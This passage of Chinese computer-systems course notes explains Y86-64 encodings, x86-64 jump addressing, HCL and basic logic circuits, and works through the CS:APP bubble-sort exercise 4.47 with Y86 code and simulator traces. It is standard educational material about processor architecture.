cmovle %rdx, %rax | 21 20 | fn = 1；%rdx = 2，%rax = 0 |
cmovne %rsi, %rdi | 24 67 | fn = 4；%rsi = 6，%rdi = 7 |
irmovq $-1, %rax | 30 f0 ff ff ff ff ff ff ff ff | rA = F；−1 的补码是全 1 |
irmovq $0x123456789a, %r10 | 30 fa 9a 78 56 34 12 00 00 00 | %r10 = 0xA；小端：最低字节 9a 在前 |
rmmovq %rsi, 0x41c(%rsp) | 40 64 1c 04 00 00 00 00 00 00 | 课件 p.13 的例子 |
mrmovq 8(%rdi), %r14 | 50 e7 08 00 00 00 00 00 00 00 | rA = %r14 = 0xE（目的），rB = %rdi = 7（基址） |
subq %r8, %r9 | 61 89 | 计算 %r9 − %r8，结果写回 %r9 |
xorq %rcx, %rcx | 63 11 | 常用来把寄存器清零 |
jmp 0x100 | 70 00 01 00 00 00 00 00 00 | 目标地址 0x100 的小端表示 |
jge 0x2a | 75 2a 00 00 00 00 00 00 00 | fn = 5 |
call 0x54 | 80 54 00 00 00 00 00 00 00 | 与 jmp 格式相同，icode = 8 |
ret | 90 | 只有指令字节 |
pushq %rbp | a0 5f | %rbp = 5，rB = F |
popq %r12 | b0 cf | %r12 = 0xC，rB = F |
1（4）拓展研讨：基于课件第 16 页，调研 x86-64 中 Jump 类指令采用的寻址方式（是 PC 相对寻址还是有其他方式），分析 Y86 采用完整的绝对地址是出于什么考虑。
x86-64 的跳转指令分为直接跳转和间接跳转两类，两者的寻址方式不同。直接跳转（目标写在指令中的 jmp、jcc、call）一律采用 PC 相对寻址：指令中存放的是“目标地址 − 下一条指令的地址”，按偏移量大小有 1 字节和 4 字节两种编码。间接跳转（jmp *、call *）的目标取自寄存器或内存，存放的是完整的 64 位绝对地址，第 5 讲 switch 语句的跳转表就是这样使用的。表 26 是用 gcc 13 汇编、objdump 读出的实测编码。
表 26 x86-64 跳转类指令的寻址方式（gcc 13 汇编实测）
| 指令 | 编码 | 寻址方式 |
|---|---|---|
jmp 近处标号 | eb 01 | PC 相对，8 位偏移（−128～127） |
je 近处标号 | 74 01 | PC 相对，8 位偏移 |
jmp 远处标号 | e9 2c 01 00 00 | PC 相对，32 位偏移 |
jne 远处标号 | 0f 85 2c 01 00 00 | PC 相对，32 位偏移 |
call 函数 | e8 + 4 字节偏移 | PC 相对，32 位偏移（第 6 讲常见问题） |
jmp *%rax | ff e0 | 间接：目标为寄存器中的绝对地址 |
jmp *(%rax) | ff 20 | 间接：目标为内存中存放的绝对地址 |
jmp *.L4(,%rdi,8) | ff 24 fd + 4 字节表地址 | 间接：从跳转表中取出绝对地址（switch） |
例如第一行的 eb 01 位于地址 0，下一条指令地址为 2，目标为 2 + 1 = 3；第四行的 0f 85 2c 01 00 00 位于 0x202，长 6 字节，目标为 0x208 + 0x12c = 0x334。PC 相对寻址有两个好处：近距离跳转只需 2 字节，代码更紧凑；指令中不含绝对地址，整段代码搬到任何地址都能正确运行，这是位置无关代码（PIE、共享库）的基础。
Y86-64 却在 jXX 和 call 中放一个完整的 8 字节绝对地址，主要出于简化硬件和教学的考虑。从编码上看，jXX、call 的 Dest 与 irmovq 的 V、rmmovq/mrmovq 的 D 是同一种 8 字节常数字段，取指阶段用同一套逻辑读出常数 valC 即可，不必区分“这个常数是偏移还是地址”。从执行上看，跳转成立时新的 PC 就是 valC 本身，不需要再用一个加法器计算“下一条指令地址 + 偏移”；第 10 讲的 SEQ 中，新 PC 只需在 valP（顺序的下一条）、valC（跳转目标）和 valM（ret 弹出的地址）之间三选一；第 11 讲的流水线在取指阶段预测“跳转”时，也能直接用 valC 作为下一条指令的地址。代价是指令更长（jXX 恒为 9 字节，而 x86-64 的短跳转只要 2 字节），并且代码不是位置无关的，搬到别的地址必须修改所有跳转目标。对教学用的 Y86-64 而言，规整性和硬件的简单比代码密度更重要，这个取舍是合理的。
1（5）从上一章（机器级编程）的课件中选一个 C 代码带配套 x86 汇编代码的程序示例，写出对应的 Y86 汇编代码，并和 x86 汇编代码对比分析差异。
选第 6 讲课件 p.44–45 的 incr 与 call_incr。这个例子很有代表性：它有过程调用，有放在栈上的局部变量 v1，还要把 v1 的地址作为参数传出去，几乎用到了 x86-64 中所有 Y86-64 没有的便利功能。C 代码与课件中的 x86-64 汇编如下。
long incr(long *p, long val) { incr:
long x = *p; movq (%rdi), %rax
long y = x + val; addq %rax, %rsi
*p = y; movq %rsi, (%rdi)
return x; ret
}
long call_incr() { call_incr:
long v1 = 15213; subq $16, %rsp
long v2 = incr(&v1, 3000); movq $15213, 8(%rsp)
return v1 + v2; movl $3000, %esi
} leaq 8(%rsp), %rdi
call incr
addq 8(%rsp), %rax
addq $16, %rsp
ret# long incr(long *p, long val)：%rdi = p，%rsi = val
incr:
mrmovq (%rdi), %rax # x = *p
addq %rax, %rsi # y = x + val
rmmovq %rsi, (%rdi) # *p = y
ret # 返回 x
# long call_incr()
call_incr:
irmovq $16, %rdx
subq %rdx, %rsp # 分配 16 字节栈帧
irmovq $15213, %rdx
rmmovq %rdx, 8(%rsp) # v1 = 15213
irmovq $3000, %rsi # 参数 2：3000
rrmovq %rsp, %rdi
irmovq $8, %rdx
addq %rdx, %rdi # 参数 1：&v1 = %rsp + 8
call incr # v2 = incr(&v1, 3000)
mrmovq 8(%rsp), %rdx # 重新读出 v1
addq %rdx, %rax # v1 + v2
irmovq $16, %rdx
addq %rdx, %rsp # 释放栈帧
ret逐条对照可以看到，incr 几乎是一对一翻译，只是把访存的 movq 换成 mrmovq/rmmovq；call_incr 则从 8 条指令变成了 14 条。表 27 归纳了造成差异的原因。
表 27 call_incr 的 x86-64 与 Y86-64 写法对比
| x86-64 写法 | Y86-64 写法 | 原因 |
|---|---|---|
subq $16, %rsp | irmovq $16, %rdx + subq %rdx, %rsp | OPq 不能带立即数，常数要先装入寄存器 |
movq $15213, 8(%rsp) | irmovq $15213, %rdx + rmmovq %rdx, 8(%rsp) | 不能把立即数直接写入内存 |
movl $3000, %esi | irmovq $3000, %rsi | 没有 32 位寄存器名，也没有更短的编码 |
leaq 8(%rsp), %rdi | rrmovq %rsp, %rdi + irmovq $8, %rdx + addq %rdx, %rdi | 没有 lea，地址只能用加法算出 |
addq 8(%rsp), %rax | mrmovq 8(%rsp), %rdx + addq %rdx, %rax | 算术指令不能直接读内存 |
addq $16, %rsp | irmovq $16, %rdx + addq %rdx, %rsp | 同第一行 |
还有两处不那么明显的差别。其一，x86-64 的 leaq 和 mov 不改变条件码，而 Y86-64 用来代替它们的 addq、subq 会改变条件码；这段代码之后没有条件判断，所以没有影响，但如果翻译的代码在比较和条件跳转之间插入了这类“地址计算”，就必须调整顺序。其二，Y86-64 版本借用了调用者保存寄存器 %rdx 存放临时常数，这是允许的，因为 call_incr 在 call incr 之后并不依赖 %rdx 的旧值。总的来说，x86-64 的复杂指令和寻址方式把多步操作压缩进一条指令，代码更短；Y86-64 的每条指令只做一件简单的事，指令条数更多，这正是研讨题 1（7）讨论的 CISC 与 RISC 风格之别。
1（6）将上一题的 Y86 汇编代码在 Y86 模拟器上运行，展示汇编和运行的全过程。
完整的程序在上一题函数的前后加上了启动代码和栈：从地址 0 开始设置 %rsp = 0x100，调用 call_incr，返回后执行 halt。第一步用汇编器 yas 把 incr.ys 汇编成 incr.yo，得到下面的列表，每行左侧是地址和机器码。
| # 第 6 讲 call_incr / incr 的 Y86-64 版本
0x000: | .pos 0
0x000: 30f40001000000000000 | irmovq stack, %rsp # 设置栈指针
0x00a: 802b00000000000000 | call call_incr # 调用 call_incr()
0x013: 00 | halt # 结束
|
| # long incr(long *p, long val)：%rdi = p，%rsi = val
0x014: | incr:
0x014: 50070000000000000000 | mrmovq (%rdi), %rax # x = *p
0x01e: 6006 | addq %rax, %rsi # y = x + val
0x020: 40670000000000000000 | rmmovq %rsi, (%rdi) # *p = y
0x02a: 90 | ret # 返回 x
|
| # long call_incr()
0x02b: | call_incr:
0x02b: 30f21000000000000000 | irmovq $16, %rdx
0x035: 6124 | subq %rdx, %rsp # 分配 16 字节栈帧
0x037: 30f26d3b000000000000 | irmovq $15213, %rdx
0x041: 40240800000000000000 | rmmovq %rdx, 8(%rsp) # v1 = 15213
0x04b: 30f6b80b000000000000 | irmovq $3000, %rsi # 参数 2：3000
0x055: 2047 | rrmovq %rsp, %rdi
0x057: 30f20800000000000000 | irmovq $8, %rdx
0x061: 6027 | addq %rdx, %rdi # 参数 1：&v1 = %rsp + 8
0x063: 801400000000000000 | call incr # v2 = incr(&v1, 3000)
0x06c: 50240800000000000000 | mrmovq 8(%rsp), %rdx # 重新读出 v1
0x076: 6020 | addq %rdx, %rax # v1 + v2
0x078: 30f21000000000000000 | irmovq $16, %rdx
0x082: 6024 | addq %rdx, %rsp # 释放栈帧
0x084: 90 | ret
|
0x100: | .pos 0x100
0x100: | stack:第二步用指令集模拟器 yis 运行 incr.yo。模拟器从 PC = 0 开始逐条执行，直到 Stat 不再是 AOK，然后报告停机位置、状态码和条件码，并列出与初始状态相比发生变化的寄存器和内存字。
Stopped in 21 steps at PC = 0x13. Status 'HLT', CC Z=0 S=0 O=0
Changes to registers:
%rax: 0x0000000000000000 0x0000000000008292
%rdx: 0x0000000000000000 0x0000000000000010
%rsp: 0x0000000000000000 0x0000000000000100
%rsi: 0x0000000000000000 0x0000000000004725
%rdi: 0x0000000000000000 0x00000000000000f0
Changes to memory:
0x00e0: 0x0000000000000000 0x000000000000006c
0x00f0: 0x0000000000000000 0x0000000000004725
0x00f8: 0x0000000000000000 0x0000000000000013结果 %rax = 0x8292 = 33426，就是 v1 + v2 = 18213 + 15213，与第 6 讲中 x86-64 版本的结果相同。表 28 逐条跟踪了全部 21 步，可以看清栈帧的建立和拆除：call call_incr 把返回地址 0x13 压到 0xf8；call_incr 分配 16 字节后 %rsp = 0xe8，v1 存放在 0xf0；call incr 把返回地址 0x6c 压到 0xe0；incr 把 0xf0 处的 v1 改为 18213。最终内存中留下的三处变化（0xe0、0xf0、0xf8）正是这三次写入，其中 0xe8 是分配了但没有用到的 8 字节，所以没有出现在报告里。
表 28 incr 程序的逐条执行跟踪（由模拟器生成）
| 步 | PC | 指令 | 执行后的变化 |
|---|---|---|---|
| 1 | 0x0 | irmovq stack, %rsp | %rsp = 0x100 |
| 2 | 0xa | call call_incr | %rsp = 0xf8；M[0xf8] = 0x13 |
| 3 | 0x2b | irmovq $16, %rdx | %rdx = 0x10 |
| 4 | 0x35 | subq %rdx, %rsp | %rsp = 0xe8 |
| 5 | 0x37 | irmovq $15213, %rdx | %rdx = 0x3b6d |
| 6 | 0x41 | rmmovq %rdx, 8(%rsp) | M[0xf0] = 0x3b6d |
| 7 | 0x4b | irmovq $3000, %rsi | %rsi = 0xbb8 |
| 8 | 0x55 | rrmovq %rsp, %rdi | %rdi = 0xe8 |
| 9 | 0x57 | irmovq $8, %rdx | %rdx = 0x8 |
| 10 | 0x61 | addq %rdx, %rdi | %rdi = 0xf0 |
| 11 | 0x63 | call incr | %rsp = 0xe0；M[0xe0] = 0x6c |
| 12 | 0x14 | mrmovq (%rdi), %rax | %rax = 0x3b6d |
| 13 | 0x1e | addq %rax, %rsi | %rsi = 0x4725 |
| 14 | 0x20 | rmmovq %rsi, (%rdi) | M[0xf0] = 0x4725 |
| 15 | 0x2a | ret | %rsp = 0xe8 |
| 16 | 0x6c | mrmovq 8(%rsp), %rdx | %rdx = 0x4725 |
| 17 | 0x76 | addq %rdx, %rax | %rax = 0x8292 |
| 18 | 0x78 | irmovq $16, %rdx | %rdx = 0x10 |
| 19 | 0x82 | addq %rdx, %rsp | %rsp = 0xf8 |
| 20 | 0x84 | ret | %rsp = 0x100 |
| 21 | 0x13 | halt | 停机，Stat = HLT |
1（7）简要分析 CISC 和 RISC 的差异，分析二者分别在什么情况下具有优势。
二者的差异在 9.7 节表 8 中已经逐项列出，核心是一句话：CISC 把复杂度放在指令里，RISC 把复杂度交给编译器。CISC 的单条指令能完成“算地址、读内存、运算、写回”等一连串工作，指令数少、代码紧凑；RISC 的指令简单、格式规整，只有 load/store 访存，寄存器多，单条指令做的事少，但每条都能用简单快速的硬件实现，也便于流水线化。
CISC 的优势出现在代码密度和兼容性重要的场合。早期内存昂贵、编译器简单，紧凑的指令和“接近高级语言”的操作很有价值；今天 x86-64 的优势主要来自几十年积累的软件生态，任何新处理器都必须能运行旧的二进制程序。RISC 的优势出现在功耗、面积、成本受限的场合：简单的译码和规整的流水线使芯片更小、更省电，这正是手机和嵌入式设备几乎都使用 ARM 的原因；对优化编译器来说，规整的指令和大量寄存器也更容易调度。课件的结论是，对于桌面处理器，ISA 的选择已经不是技术问题，现代 x86-64 处理器在内部把复杂指令拆成类似 RISC 的微操作执行，同时也吸收了更多寄存器、寄存器传参等 RISC 特点，两种风格在实现层面已经相当接近。
研讨题 2：逻辑设计#
2（1）参照课件第 41 页下方的时序图，画出 a||b 的时序图。
图 7 已经画出了 a || b 的时序（红线），并与课件中的 a && b（蓝线）放在一起对比。画法是：先在每个时刻按“任一输入为 1 则输出为 1”求出理想输出，再把每次变化向后推迟一小段门延迟。图中 b 在时刻 1 上升，此时 a 仍为 0，或门的输出在一小段上升延迟后变为 1；之后 a 在 3 上升、b 在 6 下降，但始终至少有一个输入为 1，输出保持 1；直到 a 在 9 下降、两个输入都为 0，输出才在一段下降延迟后变为 0。与门正好相反，只在两个输入同时为 1 的 3～6 之间（加上延迟）输出 1。
2（2）基于课件第 43 页，在输入 a、b 分别为 0/1 不同组合情况下，讲解图中每个逻辑门的输入输出如何变化。然后讲解课件第 44 页。
按图 9 的门编号，G1、G2 两个非门分别产生 !a 和 !b；与门 G3 的输入是 a、b，与门 G4 的输入是 !a、!b；或门 G5 合并 G3、G4 的输出。四种输入组合下各门的输出如表 29 所示（已用程序枚举核对）。
表 29 位相等电路中各门的输出
| a | b | G1 = !a | G2 = !b | G3 = a && b | G4 = !a && !b | eq = G3 || G4 |
|---|---|---|---|---|---|---|
| 0 | 0 | 1 | 1 | 0 | 1 | 1 |
| 0 | 1 | 1 | 0 | 0 | 0 | 0 |
| 1 | 0 | 0 | 1 | 0 | 0 | 0 |
| 1 | 1 | 0 | 0 | 1 | 0 | 1 |
可以看出，两个与门分别“负责”一种相等的情况：a = b = 1 时只有 G3 输出 1，a = b = 0 时只有 G4 输出 1，a ≠ b 时两个与门都输出 0，于是或门的输出恰好就是“a 与 b 相等”。如果输入从 00 变为 01，G2 先在一个门延迟后从 1 变 0，G4 再在下一个门延迟后从 1 变 0，最后 G5 的输出变为 0；所以电路的总延迟取决于从输入到输出最长的那条路径（这里是“非门—与门—或门”三级）。
课件第 44 页把它扩展到 64 位的字（图 11 左）：用 64 个位相等电路并行地比较 a63 与 b63、……、a0 与 b0，得到 eq63～eq0，再把它们全部相与，只有所有位都相等时 Eq 才为 1。在字级的画法中，整个结构被画成一个标有“=”的方框，输入是两个字 A、B，输出是一位的 Eq；在 HCL 中直接写 bool Eq = (A == B);。这说明 HCL 中的字级比较虽然写起来只是一个运算符，背后是 64 个位级电路和一个大的与门。
2（3）基于课件第 45 页，在输入 a、b、s 分别为 0/1 不同组合情况下，讲解图中每个逻辑门的输入输出如何变化。然后讲解课件第 46 页。
按图 10 的门编号，非门 G1 产生 !s；与门 G2 的输入是 s 和 a；与门 G3 的输入是 !s 和 b；或门 G4 合并两者。八种组合下各门的输出见表 30。
表 30 位级 MUX 中各门的输出
| s | a | b | G1 = !s | G2 = s && a | G3 = !s && b | out | 选中 |
|---|---|---|---|---|---|---|---|
| 0 | 0 | 0 | 1 | 0 | 0 | 0 | b |
| 0 | 0 | 1 | 1 | 0 | 1 | 1 | b |
| 0 | 1 | 0 | 1 | 0 | 0 | 0 | b |
| 0 | 1 | 1 | 1 | 0 | 1 | 1 | b |
| 1 | 0 | 0 | 0 | 0 | 0 | 0 | a |
| 1 | 0 | 1 | 0 | 0 | 0 | 0 | a |
| 1 | 1 | 0 | 0 | 1 | 0 | 1 | a |
| 1 | 1 | 1 | 0 | 1 | 0 | 1 | a |
表的上半部分 s = 0，G1 输出 1，与门 G2 被 s = 0 “关闭”，输出恒为 0，与门 G3 则让 b 原样通过，所以 out = b，无论 a 是什么；下半部分 s = 1，情况正好相反，G3 被 !s = 0 关闭，G2 让 a 通过，out = a。与门在这里起“门控”作用：一个输入当作开关，另一个输入是被控制通过的数据。由于任何时候 G2、G3 中至少有一个被关闭，或门只会看到被选中的那一路数据。
课件第 46 页的字级多路复用器（图 11 右）由 64 个这样的位级 MUX 组成，第 i 个 MUX 的数据输入是 ai 和 bi，所有 MUX 共用同一个控制信号 s，于是 s = 1 时 64 位一起选 A，s = 0 时一起选 B。实际电路中，!s 只需计算一次，再把 s 和 !s 分发给 64 个与门对即可。字级画法中它被画成一个标有 MUX 的方框；HCL 写成 case 表达式 int Out = [ s : A; 1 : B; ];，读作“若 s 成立则输出 A，否则输出 B”。
2（4）基于课件第 43~47 页及教材上的相关内容，讲解 HCL 的基本语法。
HCL 的全部语法可以归纳为“两种类型、两种语句、四类表达式”（9.15 节表 17）。两种类型是 bool（一位信号，小写命名）和 int/word（一个字，大写命名，宽度不限定）。两种语句是 bool 名字 = 布尔表达式; 和 int 名字 = 字级表达式;，每条语句定义一个信号，等价于一块组合电路。布尔表达式包括逻辑运算 &&、||、!，字比较 ==、!=、<、<=、>、>=，以及集合成员测试 A in { B, C, D }；字级表达式最主要的是 case 表达式。下面的例子都来自课件 p.28–31、p.44–48 和教材，并已枚举验证。
bool eq = (a && b) || (!a && !b); # 位相等（课件 p.28、p.44）
bool xor = (a && !b) || (!a && b); # 位异或，等价于 !eq
bool out = (s && a) || (!s && b); # 位级 MUX（课件 p.30、p.45）
bool Eq = (A == B); # 字级相等（课件 p.29、p.46）
int Out = [ s : A; 1 : B; ]; # 字级 MUX（课件 p.31、p.47）
int Min3 = [ # 三数最小值（教材写法）
A <= B && A <= C : A;
B <= C : B; # 走到这里说明 A 不是最小
1 : C;
];
bool is_op = icode in { IOPQ, IRRMOVQ }; # 集合成员测试读写 HCL 要注意它与 C 的三点不同。第一，HCL 描述的是电路，所有语句同时“生效”，没有执行顺序，也没有赋值的概念，同一个信号只能定义一次。第二，&& 和 || 不会短路，它们就是与门和或门。第三，case 表达式的顺序有意义：硬件按从上到下的优先级选出第一个成立的条件，后面的条件可以利用“前面的都不成立”来化简（如 Out4 和教材版 Min3 的第二项），而最后一项通常是 1 : 默认值，以保证总有输出。课件 p.48 的 Min3 用了严格小于，在 A = B < C 时会选错，这一点在 9.11 节已经指出。
2（5）根据课件第 48 页，以 X&Y 功能为例，分析 ALU 的内部用到了哪些前面提到的组件。
ALU 是一个纯组合电路。以 andq 为例（控制信号 fn = 2，输出 X & Y），可以把它拆成图 12 中的几部分，每一部分都是前面讲过的组件。
位级逻辑门负责 X & Y：X & Y 由 64 个两输入与门并排实现，第 i 个与门的输入是 Xi 和 Yi，输出就是结果的第 i 位。异或运算同样由 64 个异或门实现，而异或门本身又可以用研讨题 2（4）中的与、或、非门组合出来。
字级多路复用器从四个结果中选一个：ALU 内部同时计算出 X + Y、X − Y、X & Y、X ^ Y 四个结果，再由一个四路字级 MUX 根据 2 位控制信号 fn 选出其中一个，这正是课件 p.48 的 Out4 结构，fn = 2 时选中与门那一路。所有四个运算单元一直在工作，选择只发生在输出端。
字级相等判断产生 ZF：ZF 表示结果是否为 0，可以用课件 p.29、p.46 的字级相等电路把结果与常数 0 比较得到，实际上相当于把 64 位结果全部取反后相与（一个 64 输入的或非门）。
SF 只用一根导线：SF 就是结果的最高位（第 63 位），直接用一根导线引出即可，不需要任何门。
OF 需要专用的溢出逻辑：OF 只对加减法有意义，按第 2 讲的规则由操作数和结果的符号位组合而成；对与、异或运算，Y86-64 规定 OF 为 0，所以 fn = 2 时溢出逻辑输出 0。
需要强调的是，ALU 只负责“算出”结果和三个条件码的候选值，它们要等到时钟上升沿才被写入目的寄存器和条件码寄存器（第 10 讲的 SEQ 中，只有 OPq 指令才更新条件码）。
2（6）基于课件第 51 页及之前相关内容，对照上方结构图和下方时序图，讲解结构图中各部件的输入输出在每个时钟周期的变化情况。
结构图（图 14）中有三个部件：ALU（固定做加法，输入为 In 和寄存器输出 Out）、MUX（控制信号 Load，Load = 1 选 In，Load = 0 选 ALU 的结果）和寄存器（在时钟上升沿装入 MUX 的输出）。前两者是组合逻辑，在每个周期内根据当前的 In、Load 和 Out 持续算出“下一个值”；寄存器是唯一的状态，它的输出 Out 在整个周期内保持不变，到上升沿才更新。表 31 按周期列出各部件的值，最后一列用 x0～x5 = 3、5、7、11、13、17 代入实际计算（已用程序模拟核对）。
表 31 累加器逐周期的状态（课件 p.41）
| 周期 | Load | In | 周期内 ALU 输出 | MUX 输出（下一状态） | 上升沿后 Out | 代入数值 |
|---|---|---|---|---|---|---|
| 1 | 1 | x0 | （旧 Out）+ x0 | x0 | x0 | 3 |
| 2 | 0 | x1 | x0 + x1 | x0 + x1 | x0 + x1 | 8 |
| 3 | 0 | x2 | x0 + x1 + x2 | x0 + x1 + x2 | x0 + x1 + x2 | 15 |
| 4 | 1 | x3 | x0 + x1 + x2 + x3 | x3 | x3 | 11 |
| 5 | 0 | x4 | x3 + x4 | x3 + x4 | x3 + x4 | 24 |
| 6 | 0 | x5 | x3 + x4 + x5 | x3 + x4 + x5 | x3 + x4 + x5 | 41 |
以第 2 个周期为例：周期开始时寄存器刚装入 x0，Out = x0；外部送来 In = x1、Load = 0；ALU 在一段延迟后输出 x0 + x1；MUX 选择 ALU 的结果，于是寄存器的输入端出现 x0 + x1。在这个周期剩余的时间里，Out 一直保持 x0，不会因为输入端已经出现了新值而改变，所以 ALU 的输入是稳定的，电路不会出现“边算边改”的混乱。到下一个上升沿，寄存器装入 x0 + x1，Out 变为新值，第 3 个周期开始。第 4 个周期 Load 再次为 1，ALU 虽然照样算出 x0 + x1 + x2 + x3，但 MUX 选择了 In，这个和被丢弃，寄存器重新从 x3 开始累加。时序图中 Out 的每次变化都紧跟在时钟上升沿之后，而 In 和 Load 的变化可以发生在周期中的任何时刻，只要在下一个上升沿之前稳定下来即可。
2（7）基于课件第 53 页，讲解寄存器堆读写的操作过程。
寄存器堆（寄存器文件）有两个读端口和一个写端口（图 16），读和写的时序不同。读操作像组合逻辑：把寄存器编号送到 srcA，寄存器文件内部用这个编号选出对应的寄存器（相当于一个 15 选 1 的字级 MUX），经过一段延迟后 valA 输出它的值；srcA 一旦改变，valA 也会随之改变，不需要等待时钟。课件 p.40 上方的例子中，把 srcA 设为 2，过一会儿 valA 就输出第 2 号寄存器 %rdx 的当前值 x。
写操作像时钟寄存器：先把目标编号送到 dstW、要写的值送到 valW，在时钟上升之前，这两个输入可以随便变化，寄存器文件的内容都不会改变；时钟上升的那一刻，编号为 dstW 的寄存器装入 valW。课件 p.40 下方的例子中，dstW = 2、valW = y，上升沿之后第 2 号寄存器的值从 x 变为 y；如果此时读端口 A 的 srcA 也是 2，那么 valA 会在上升沿之后经过一段延迟从 x 变为 y。编号为 0xF 时表示不读或不写，例如 dstW = 0xF 的周期里，上升沿不会改变任何寄存器。
这种“读是组合的、写在时钟沿”的设计正好适合处理器：在一个时钟周期内，指令的源操作数从读端口读出，经过 ALU 计算，结果送到写端口；到周期结束的上升沿，结果写入目的寄存器，下一条指令在新的周期里就能读到它。如果同一周期内读写同一个寄存器，读到的是写入之前的旧值，新值要到上升沿之后才出现。第 10 讲的 SEQ 正是按这样的方式组织一条指令的执行。
第三部分 作业题解答：4.47、4.48、4.49#
三道作业题都围绕同一个冒泡排序函数：4.47 先写出指针版的 C 代码和完整的 Y86-64 程序，4.48 和 4.49 再把其中“比较并交换”的部分改成不用跳转的写法。所有程序都在本讲义的模拟器上运行过：除了题目给的测试数据，还对每个版本随机生成了 2000 组数组（长度 0～9，元素包括小整数和接近 ±263 的极端值），排序结果全部与正确答案一致。
4.47 用 Y86-64 实现冒泡排序#
题目教材给出了用数组下标实现的冒泡排序 bubble_a（data 为数组，count 为元素个数；外层循环 last 从 count−1 递减到 1，内层循环 i 从 0 到 last−1，若 data[i+1] < data[i] 则交换二者）。A. 编写并测试一个用指针而不是数组下标访问元素的 C 版本。B. 编写并测试由该函数和测试代码组成的 Y86-64 程序。可以参照编译 C 代码生成的 x86-64 代码来实现。指针比较通常用无符号运算，本题可以用有符号运算。
A. 指针版本的 C 代码。 把下标 i 和 last 换成指针：last 从 data + count − 1 开始，每轮减 1，直到不再大于 data；i 从 data 开始，走到 last 之前。*(i+1) 与 *i 就是相邻的两个元素。
void bubble_p(long *data, long count) {
long *i, *last;
for (last = data + count - 1; last > data; last--)
for (i = data; i < last; i++)
if (*(i+1) < *i) {
/* 交换相邻元素 */
long t = *(i+1);
*(i+1) = *i;
*i = t;
}
}测试方法是同时运行教材的数组版 bubble_a 和指针版 bubble_p：对 {0xbca, 0xcba, 0xacb, 0xcab, 0xabc, 0xbac} 排序得到 0xabc、0xacb、0xbac、0xbca、0xcab、0xcba；再随机生成 20000 个长度 0～11 的数组，两个版本的结果完全相同且都已有序。count 为 0 或 1 时，last = data + count − 1 不大于 data，外层循环一次也不执行，也是正确的。
B. Y86-64 程序。 按课件推荐的做法，先看 gcc 13 -Og 为 bubble_p 生成的 x86-64 代码，再逐条改写。gcc 的代码用 leaq -8(%rdi,%rsi,8), %rsi 一步算出 last，用 cmpq 加无符号跳转 jnb 比较指针，用 cmpq 加 jge 比较元素。这几处在 Y86-64 中都要改写：没有 lea 和比例因子，8 × count 用三次自加得到；没有 cmpq，比较时先把一个操作数复制到 %rax 再做 subq，以免破坏原值；没有无符号跳转，按题目的允许改用有符号的 jl、jg。寄存器的分配是：%rdi = data，%rsi = last，%rcx = i，%r8 = 常数 8，%r9、%r10 = 两个相邻元素 a、b，%rax 用作比较时的临时寄存器。
bubble_p:
leaq -8(%rdi,%rsi,8), %rsi # last = data + count - 1
jmp .L10
.L11:
addq $8, %rax # i++
.L13:
cmpq %rsi, %rax
jnb .L15 # i >= last（无符号）则退出内层
movq 8(%rax), %rdx # b = *(i+1)
movq (%rax), %rcx # a = *i
cmpq %rcx, %rdx
jge .L11 # b >= a 则不交换
movq %rcx, 8(%rax)
movq %rdx, (%rax)
jmp .L11
.L15:
subq $8, %rsi # last--
.L10:
cmpq %rsi, %rdi
jnb .L16 # data >= last（无符号）则结束
movq %rdi, %rax # i = data
jmp .L13
.L16:
ret# 4.47 B：测试程序（数组取教材练习常用的 6 个值）
.pos 0
irmovq stack, %rsp # 设置栈指针
call main
halt
.align 8
array:
.quad 0xbca
.quad 0xcba
.quad 0xacb
.quad 0xcab
.quad 0xabc
.quad 0xbac
main:
irmovq array, %rdi # 参数 1：data
irmovq $6, %rsi # 参数 2：count
call bubble_p # bubble_p(array, 6)
ret# void bubble_p(long *data, long count)
# %rdi = data，%rsi = count；%rsi 随后用作 last
bubble_p:
irmovq $8, %r8 # 常数 8
rrmovq %rsi, %rax
addq %rax, %rax # 2*count
addq %rax, %rax # 4*count
addq %rax, %rax # 8*count
rrmovq %rdi, %rsi
addq %rax, %rsi
subq %r8, %rsi # last = data + count - 1
jmp Outer_test
Outer:
rrmovq %rdi, %rcx # i = data
jmp Inner_test
Inner:
mrmovq (%rcx), %r9 # a = *i
mrmovq 8(%rcx), %r10 # b = *(i+1)
rrmovq %r10, %rax
subq %r9, %rax # 按 b - a 设置条件码
jge Noswap # b >= a：不交换
rmmovq %r9, 8(%rcx) # *(i+1) = a
rmmovq %r10, (%rcx) # *i = b
Noswap:
addq %r8, %rcx # i++
Inner_test:
rrmovq %rcx, %rax
subq %rsi, %rax # 按 i - last 设置条件码
jl Inner # i < last：继续内层循环
subq %r8, %rsi # last--
Outer_test:
rrmovq %rsi, %rax
subq %rdi, %rax # 按 last - data 设置条件码
jg Outer # last > data：继续外层循环
ret
.pos 0x200
stack:函数的结构与 gcc 的代码一一对应：两层循环都采用“先跳到测试处”的 jump-to-middle 形式（第 5 讲）。内层循环体读出 a = *i 和 b = *(i+1)，把 b 复制到 %rax 后执行 subq %r9, %rax，条件码反映 b − a 的符号，jge 在 b ≥ a 时跳过交换；交换时只需把 a、b 交叉写回，不需要临时变量 t，因为两个值都已经在寄存器中。内层测试把 i 复制到 %rax 再减去 last，i < last 时继续；外层测试把 last 复制到 %rax 再减去 data，last > data 时继续。测试数据放在 .align 8 之后，栈底设在 0x200，离代码末尾有足够的距离。用模拟器运行的结果如下，0x18～0x40 六个字已经按升序排好，0x1f0 和 0x1f8 是两次 call 留下的返回地址。
Stopped in 220 steps at PC = 0x13. Status 'HLT', CC Z=1 S=0 O=0
Changes to registers:
%rcx: 0x0000000000000000 0x0000000000000020
%rsp: 0x0000000000000000 0x0000000000000200
%rsi: 0x0000000000000000 0x0000000000000018
%rdi: 0x0000000000000000 0x0000000000000018
%r8: 0x0000000000000000 0x0000000000000008
%r9: 0x0000000000000000 0x0000000000000abc
%r10: 0x0000000000000000 0x0000000000000acb
Changes to memory:
0x0018: 0x0000000000000bca 0x0000000000000abc
0x0020: 0x0000000000000cba 0x0000000000000acb
0x0028: 0x0000000000000acb 0x0000000000000bac
0x0030: 0x0000000000000cab 0x0000000000000bca
0x0038: 0x0000000000000abc 0x0000000000000cab
0x0040: 0x0000000000000bac 0x0000000000000cba
0x01f0: 0x0000000000000000 0x0000000000000065
0x01f8: 0x0000000000000000 0x00000000000000134.48 不用跳转、至多三次条件传送实现比较与交换#
题目修改 4.47 的代码，用不含跳转、至多三条条件传送指令的代码实现冒泡排序函数中的比较与交换（C 代码第 6～11 行）。
